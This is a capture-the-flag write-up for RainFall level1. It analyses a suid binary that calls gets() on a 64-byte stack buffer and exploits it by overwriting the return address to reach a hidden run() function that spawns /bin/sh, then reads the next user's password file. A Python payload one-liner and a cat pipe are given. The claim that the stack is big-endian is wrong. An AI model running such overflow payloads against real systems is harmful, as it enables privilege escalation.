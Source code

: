 # Level1

## Resolution
 * There is one file in our home, ```level1```, belonging to ```level2``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary:


<div id="code-element">
<script src="https://unpkg.com/axios/dist/axios.min.js"></script>
<script>
      axios({
      method: 'get',
      url: 'https://raw.githubusercontent.com/ezalos/RainFall/master/level1/source.c'
       })
      .then(function (response) {
         document.getElementById("code-element").innerHTML = response.data;
      });
</script>
</div>

 * We run the program with gdb and we observe that:
	* `main()` makes use of `gets()` with an on stack array of size 0x40
	* There is an unused function nammed `run` at `0x08048444` which executes `system("/bin/sh")`

 * We have the appropriate setup for a Buffer-Overflow attack:
    * We want to modify the `POP EIP` instruction (or equivalently `RET` instruction).
		* It normally allows to continue the execution of the parent function
		* Here we instead want to execute the `run()` function
	* When `gets()` is called we want to write past through the buffer, here is the stack layout:
		* [gets arg :	64 octets] -> We can write any value here
		* [EBP:			8 octetcs] -> We would like to conserve this value so we avoid segfalut
		* [EIP:			8 octetcs] -> We want to change this value so it points to `run()`, it needs to be `0x08048444`
	
 * We now have to put all this theory in practice, keeping in mind the stack uses Big Endian

 1. Lets prepare our string for the Buffer-Overflow attack:
 ```sh
python -c "print('x' * 76 + '44840408'.decode('hex'))" > /var/crash/lvl1
 ```
 2. Now we want to use the content of lvl1 as stdin for gets,
 and then manually get access to stdin once `system("/bin/sh")` is executed.
 For this we can use cat, with `-` as a second argument, so once the file has been read,
 cat will transmit stdin :
 ```sh
 cat /var/crash/lvl1 - | ./level1
 ```

 3. We now are in the shell session, and we can simply cat the content `.pass` with: 
 ```
 cat /home/user/level2/.pass
 ```
